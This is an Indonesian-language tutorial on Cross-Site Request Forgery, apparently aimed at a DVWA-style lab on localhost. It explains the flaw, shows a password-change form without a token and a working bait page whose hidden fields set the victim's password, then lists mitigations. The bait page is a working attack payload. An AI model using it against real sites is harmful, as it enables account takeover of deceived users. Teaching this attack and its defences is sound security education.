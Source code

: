 # Cross-site Request Forgery
## Definisi

CSRF (Cross-Site Request Forgery) adalah jenis kerentanan pada aplikasi web di mana penyerang dapat mengeksploitasi kepercayaan yang diberikan pengguna kepada suatu situs web. Dalam serangan CSRF, penyerang memanipulasi pengguna yang sedang diautentikasi (login) di situs web target untuk melakukan tindakan yang tidak disengaja tanpa sepengetahuan atau persetujuan mereka.

![csrf](https://media.geeksforgeeks.org/wp-content/uploads/20220330113139/csrf.jpg)

## Contoh Serangan

Terdapat sebuah website dengan fitur mengganti akun password.

![contoh](images/image.png)

```html
<form action="#" method="GET">
    New password:<br />
    <input type="password" AUTOCOMPLETE="off" name="password_new"><br />
    Confirm new password:<br />
    <input type="password" AUTOCOMPLETE="off" name="password_conf"><br />
    <br />
    <input type="submit" value="Change" name="Change">
</form>
```

Dapat dilihat tidak ada "CSRF-Token" sebagai proses verifikasi pada setiap request, maka dapat dibuat sebuah website sebagai **bait**.

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Klik Dapat Uang Coy!!</title>
</head>
<body>
    <form action="http://localhost/vulnerabilities/csrf/?" method="GET">
        <input type="hidden" name="password_new" value="Password-Hacked-Attacker">
        <input type="hidden" name="password_conf" value="Password-Hacked-Attacker">
        <input type="hidden" name="Change" value="Change">
        <input type="submit" value="Klik Langsung Dapat UANG!!!">
    </form>
</body>
</html>
```

Website yang dibuat penyerang tujuannya adalah mengelabuhi korban, agar melakukan eksekusi request yang tidak diinginkan.

## Mitigasi

- `CSRF-Token`: Sebagai token unik pada setiap request dan sesi, server akan melakukan verifikasi sebelum memprosesnya.
- `Validasi Header`: Mengecek referer header untuk memastikan request berasal dalam sumber yang sah.
- `SameSite Cookie`: Mengatur cookie dengan atribut SameSite untuk membatasi bahwa request dibuat dalam situs yang sama.